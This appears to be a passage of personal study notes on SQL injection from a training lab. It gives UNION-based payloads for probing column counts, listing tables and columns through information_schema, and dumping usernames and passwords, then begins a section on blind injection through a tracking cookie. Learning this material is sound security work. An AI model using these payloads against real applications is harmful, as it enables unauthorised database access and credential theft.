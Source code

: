 - to list individual table
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'

TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

#### Listing db contents on non-Oracle dbs
use union attack
determine columns
determine string columns
sql inject

```sql
GET /filter?category='+ORDER+BY+2-- HTTP/2
-- or
GET /filter?category='+UNION+SELECT+NULL,NULL-- HTTP/2
```

```sql
-- they both are
GET /filter?category='+UNION+SELECT+'sql-data-too','sql-data'-- HTTP/2
```

`Lab`
```sql
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_hvgofw'--
'+UNION+SELECT+username_grknrh,+password_phjykp+FROM+users_hvgofw--
```

Selecting all tables
![[Pasted image 20241104063124.png]]
Selecting all columns of the `users_hvgofw` table
![[Pasted image 20241104062927.png]]
Selecting all usernames and passwords from the users_hvgofw table
![[Pasted image 20241104063050.png]]


# Blind SQL injection
When does it occurs?
- when application is still vulnerable to SQL Injection
- but its HTTP responses do not contain the results of the relevant SQL query
- or the details of any db errors
- many techniques aren't efficient with blind SQL injection vulnerabilities (like UNION), because you need to see HTTP output

## Triggering conditional responses
Environment
- application that uses tracking cookies to gather stats about usage
```http
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
- when a request containing TrackingId cookie is processed, app uses a SQL query to determine whether this is a known user
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
- this query is vulnerable
- results from the query aren't returned to user